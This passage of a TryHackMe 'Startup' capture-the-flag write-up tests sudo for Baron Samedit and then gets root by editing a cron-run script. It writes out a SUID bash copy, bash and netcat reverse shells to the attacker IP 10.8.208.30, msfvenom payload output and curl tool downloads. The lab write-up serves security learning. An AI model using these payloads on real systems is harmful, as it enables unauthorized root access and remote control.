c4ntg3t****ghsp1c3
sudo: 3 incorrect password attempts
www-data@startup:/home$ |
cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
```

## Analysing the sudo version and vulnerability

Taking a closer look to the `sudo` utility that is installed on this server. It is about version `1.8.16`. 

```commandline
www-data@startup:/$ sudo -V
Sudo version 1.8.16
sudo: unable to resolve host startup
Sudoers policy plugin version 1.8.16
Sudoers file grammar version 45
Sudoers I/O plugin version 1.8.16
```

Looked up for `sudo` vulnerabilities on <https://www.exploit-db.com> and found 7 hits for the `1.8` version of `sudo`. Or 27 hits if I don't specify the version. By experience, I know that version numbers are not always very well logged in reports and also that search algorithms just sucks sometimes and fails hard! **Hi programmers and bug reporters, stop drinking beer when programming or reporting...** Now figuring out which one and be able to reproduce what the initial hacker was able to do on this server. Actually, did not find anything useful specific for this version of `sudo` on the exploit-db in first instance. Using `searchsploit sudo 1.8` did not help either. However, when using `msfconsole` and doing a search for `sudo 1.8` showed up:

    exploit/linux/local/sudo_baron_samedit           2021-01-26       excellent  Yes    Sudo Heap-Based Buffer Overflow

Looking with `info exploit/linux/local/sudo_baron_samedit` in `msfconsole` gave a lot of useful information!. So useful I put a stripped part here. That's good for search engines I have been told:

```commandline
...
Available targets:
  Id  Name
  --  ----
  0   Automatic
  1   Ubuntu 20.04 x64 (sudo v1.8.31, libc v2.31)
  2   Ubuntu 20.04 x64 (sudo v1.8.31, libc v2.31) - alternative
  3   Ubuntu 19.04 x64 (sudo v1.8.27, libc v2.29)
  4   Ubuntu 18.04 x64 (sudo v1.8.21, libc v2.27)
  5   Ubuntu 18.04 x64 (sudo v1.8.21, libc v2.27) - alternative
  6   Ubuntu 16.04 x64 (sudo v1.8.16, libc v2.23)
  7   Ubuntu 14.04 x64 (sudo v1.8.9p5, libc v2.19)
  8   Debian 10 x64 (sudo v1.8.27, libc v2.28)
  9   Debian 10 x64 (sudo v1.8.27, libc v2.28) - alternative
  10  CentOS 8 x64 (sudo v1.8.25p1, libc v2.28)
  11  CentOS 7 x64 (sudo v1.8.23, libc v2.17)
  12  CentOS 7 x64 (sudo v1.8.23, libc v2.17) - alternative
  13  Fedora 27 x64 (sudo v1.8.21p2, libc v2.26)
  14  Fedora 26 x64 (sudo v1.8.20p2, libc v2.25)
  15  Fedora 25 x64 (sudo v1.8.18, libc v2.24)
  16  Fedora 24 x64 (sudo v1.8.16, libc v2.23)
  17  Fedora 23 x64 (sudo v1.8.14p3, libc v2.22)
  18  Manual

Check supported:
  Yes

Basic options:
  Name         Current Setting  Required  Description
  ----         ---------------  --------  -----------
  SESSION                       yes       The session to run this module on.
  WritableDir  /tmp             yes       A directory where you can write files.

Payload information:

Description:
  A heap based buffer overflow exists in the sudo command line utility 
  that can be exploited by a local attacker to gain elevated 
  privileges. The vulnerability was introduced in July of 2011 and 
  affects version 1.8.2 through 1.8.31p2 as well as 1.9.0 through 
  1.9.5p1 in their default configurations. The technique used by this 
  implementation leverages the overflow to overwrite a service_user 
  struct in memory to reference an attacker controlled library which 
  results in it being loaded with the elevated privileges held by 
  sudo.

References:
  https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit
  https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
  https://www.kalmarunionen.dk/writeups/sudo/
  https://github.com/blasty/CVE-2021-3156/blob/main/hax.c
  https://nvd.nist.gov/vuln/detail/CVE-2021-3156

Also known as:
  Baron Samedit
```

I know about this `Baron Samedit`, already done that in the past :-D Arf, why I forget or fail to keep a link to version numbers into my head. I'm getting old and dumb. This is about the famous `CVE-2021-3156`, the `Sudo Baron Samedit` vulnerability which exists for so many years! Ok, There's even a dedicated [TryHackme room](https://tryhackme.com/room/sudovulnssamedit) for this. I have fine-grained my favorite's folder `Well Know CVE` has now a dedicated `sudo` folder! In the future, I will create / put them in a dedicated sub-folder per application or OS specific. This becomes too messy and unmanageable.

**A few links ref. CVE-2021-3156 Baron Samedit:**

- <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3156>
- <https://www.exploit-db.com/exploits/49521>
- <https://tryhackme.com/room/sudovulnssamedit>

So, to test this out on our target machine, we can use buffer overflow crash test trick. Here you go again `Python`:

```commandline
www-data@startup:/$ sudoedit -s '\' $(python3 -c 'print("A"*1000)')
...
7fff66cad000-7fff66cce000 rw-p 00000000 00:00 0                          [stack]
7fff66d18000-7fff66d1a000 r--p 00000000 00:00 0                          [vvar]
7fff66d1a000-7fff66d1c000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
Aborted (core dumped)
```

So this `sudo` version crashed and is indeed vulnerable like documented.

I tried a lot of things to make use of this vulnerability. But after a few hours of breaking my head, I came to the conclusion they patched this `sudo`. It's not possible otherwise. I assume that the sys-admin, after figured out he got hacked, fixed this issue somehow, without changing the version number of sudo. No idea but I gave up on this. I have the password of user lennie anyway. But it's so bad because I wanted to reproduce exact the same scenario and get confirmation that this CVE pushed the password out in the network packets.

## Login into user account lennie

As we have the password of user `lennie` since a while by now, we can log in with his user account and get the user flag. We can log in with our remote shell or via ssh. Both methods work, tested!

```commandline
www-data@startup:/$ su lennie
Password: c4ntg3t****ghsp1c3

lennie@startup:/$ cd

lennie@startup:~$ ls -lah
total 24K
drwx------ 4 lennie lennie 4.0K Aug 15 23:06 .
drwxr-xr-x 3 root   root   4.0K Nov 12  2020 ..
-rw------- 1 lennie lennie  393 Aug 15 23:06 .bash_history
drwxr-xr-x 2 lennie lennie 4.0K Nov 12  2020 Documents
drwxr-xr-x 2 root   root   4.0K Nov 12  2020 scripts
-rw-r--r-- 1 lennie lennie   38 Nov 12  2020 user.txt
lennie@startup:~$ cat user.txt
THM{03***d619b80ccbfb3b7fc81e46***79}
```

_Stripped out a bit the password and the `user.txt` flag, and I'm not so sorry._

Looking further in the home folder of user Lennie:

```commandline
lennie@startup:~$ ls -lah Documents
total 20K
drwxr-xr-x 2 lennie lennie 4.0K Nov 12  2020 .
drwx------ 4 lennie lennie 4.0K Nov 12  2020 ..
-rw-r--r-- 1 root   root    139 Nov 12  2020 concern.txt
-rw-r--r-- 1 root   root     47 Nov 12  2020 list.txt
-rw-r--r-- 1 root   root    101 Nov 12  2020 note.txt

lennie@startup:~$ cat Documents/concern.txt
I got banned from your library for moving the "C programming language" book into the horror section. Is there a way I can appeal? --Lennie

lennie@startup:~$ cat Documents/list.txt
Shoppinglist: Cyberpunk 2077 | Milk | Dog food

lennie@startup:~$ cat Documents/note.txt
Reminders: Talk to Inclinant about our lacking security, hire a web developer, delete incident logs.
```

Not useful information we got so far.

## Privilege escalation

Gaining root access!

Looking into that `scripts` folder, I could not get the point of it. The `startup_list.txt` file is empty, the variable `$LIST` too but probably defined for `root` user. That script is useless. That sysadmin or web developer definitively should be fired! Useless stuff and making a serious hole onto the system for nothing.

```commandline
lennie@startup:~$ ls -lah scripts
total 16K
drwxr-xr-x 2 root   root   4.0K Nov 12  2020 .
drwx------ 4 lennie lennie 4.0K Nov 12  2020 ..
-rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root   root      1 Aug 15 21:30 startup_list.txt
lennie@startup:~$ cat scripts/startup_list.txt
lennie@startup:~$ cat scripts/planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
lennie@startup:~$ echo $LIST
lennie@startup:~$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
lennie@startup:~$ ./scripts/planner.sh
./scripts/planner.sh: line 2: /home/lennie/scripts/startup_list.txt: Permission denied
Done!
```

After a while, I found out that user `lennie` is allowed to edit this file. So we can adapt it to get `root` access.

```commandline
lennie@startup:~$ ls -lah /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```

Need a few tools of my attackers box. So again:

```commandline
cd ~/tools
python -m SimpleHTTPServer 8080
```

On the target computer getting the `linpeas.sh` and `pspy64` scripts:

```commandline
cd /tmp
curl http://10.8.208.30:8080/linpeas.sh -o linpeas.sh
curl http://10.8.208.30:8080/pspy64 -o pspy64
chmod +x linpeas.sh pspy64
```

I have looked with the [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) script but did not help me this time. It gave me information I already knew so far. So I cross my 8 fingers in the hope this will work.

Apparently this is a cron job, check out this tool: <https://github.com/DominicBreuker/pspy> so I download the precompiled binary <https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64> on my attackers box, as there is no internet on these lab computer of TryHackMe. So I downloaded the file on my attackers computer <https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64>

This script gave me the info that this is about a cron job that is run every minute and by root user. Actually like you can see bellow, it doesn't tell us it is about `root` user, it only give us the information `UID=0`. But heck, that's `root`.

```commandline
...
2021/08/16 01:11:01 CMD: UID=0    PID=2585   | /usr/sbin/CRON -f 
2021/08/16 01:12:01 CMD: UID=0    PID=2593   | /bin/bash /home/lennie/scripts/planner.sh 
2021/08/16 01:12:01 CMD: UID=0    PID=2592   | /bin/bash /home/lennie/scripts/planner.sh 
2021/08/16 01:12:01 CMD: UID=0    PID=2591   | /bin/sh -c /home/lennie/scripts/planner.sh 
2021/08/16 01:12:01 CMD: UID=0    PID=2590   | /usr/sbin/CRON -f 
2021/08/16 01:13:01 CMD: UID=0    PID=2598   | /bin/bash /home/lennie/scripts/planner.sh 
2021/08/16 01:13:01 CMD: UID=0    PID=2597   | /bin/bash /home/lennie/scripts/planner.sh 
2021/08/16 01:13:01 CMD: UID=0    PID=2596   | /bin/sh -c /home/lennie/scripts/planner.sh 
2021/08/16 01:13:01 CMD: UID=0    PID=2595   | /usr/sbin/CRON -f 
2021/08/16 01:14:01 CMD: UID=0    PID=2603   | /bin/bash /home/lennie/scripts/planner.sh 
2021/08/16 01:14:01 CMD: UID=0    PID=2602   | /bin/bash /home/lennie/scripts/planner.sh 
2021/08/16 01:14:01 CMD: UID=0    PID=2601   | /bin/sh -c /home/lennie/scripts/planner.sh 
2021/08/16 01:14:01 CMD: UID=0    PID=2600   | /usr/sbin/CRON -f 
2021/08/16 01:14:01 CMD: UID=0    PID=2604   | /bin/bash /home/lennie/scripts/planner.sh
```

So, this is clear, we need to mess around with that script that is run as root user, to gain root access. We have various opportunities here. The sky is the limit, like some Flemish bourgeoisie reality TV show will say. And this is actually true.

So here we go, now it's all about which method we want to use. I have listed a few here, just for fun. They all work. Tested :-D

```commandline
$ /tmp/bash -p
bash-4.3# id
uid=1002(lennie) gid=1002(lennie) euid=0(root) groups=1002(lennie)
bash-4.3# cat /root/root.txt 
THM{f963a***a430f210222158****c3d76d}
```

### Option - SUID bit on a file

The content of file `/etc/print.sh`:

```commandline
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

Once the cron job is executed:

```commandline
lennie@startup:~/scripts$ /tmp/rootbash -p
bash-4.3# id
uid=1002(lennie) gid=1002(lennie) euid=0(root) groups=1002(lennie)
bash-4.3# 
```

See also the [GTFOBins](https://gtfobins.github.io) where you can find more information.

### Option - Reverse Shell

On [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) document on [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings) you find various options :)

On the host computer, set a listener:

```commandline
nc -lvnp 4321
```

And on the target machine, use the reverse shell you love. Listed a few here.

#### Bash Reverse Shell

Another method on adding stuff in the `/etc/print.sh` file:

```commandline
echo "bash -i >& /dev/tcp/10.8.208.30/4321 0>&1" > /etc/print.sh
```

#### NetCat reverse shell

The content of file `/etc/print.sh`:

```commandline
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 10.8.208.30 4321 > /tmp/f
echo "Done!"
```

**Tip**: Check out also `msfvenom` to create such kinds of payloads:

````commandline
$ msfvenom -p cmd/unix/reverse_netcat lhost=10.8.208.30 lport=8888 revshell

[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 89 bytes
mkfifo /tmp/kdje; nc 10.8.208.30 8888 0</tmp/kdje | /bin/sh >/tmp/kdje 2>&1; rm /tmp/kdje
````

## Mission accomplished

I think the mission is accomplished by now and we are done! Hopefully you enjoyed like how I enjoyed this one.

Greetz and Peace & Love
